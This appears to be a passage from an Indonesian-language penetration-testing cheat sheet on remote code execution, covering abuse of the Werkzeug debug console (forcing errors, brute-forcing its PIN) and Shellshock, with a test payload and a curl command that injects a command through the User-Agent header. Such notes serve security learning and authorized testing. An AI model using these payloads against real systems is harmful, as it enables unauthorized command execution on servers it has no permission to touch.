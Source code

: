 ## RCE

**Werkzeug Debugger**

Temukan tempat di mana input pengguna dapat diberikan dan kirimkan string berikut untuk menyebabkan kesalahan:

```
strіng
```

Jika target menjalankan aplikasinya dalam mode debug, Anda mungkin dapat menjalankan perintah. Jika Anda menjalankan target secara lokal, Anda mungkin dapat memaksa PIN debugger. PIN debugger selalu dalam format berikut: `***-***-***`.

**Shellshock Bug**

```bash
() { :;}; echo vulnerable
```

```zsh
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
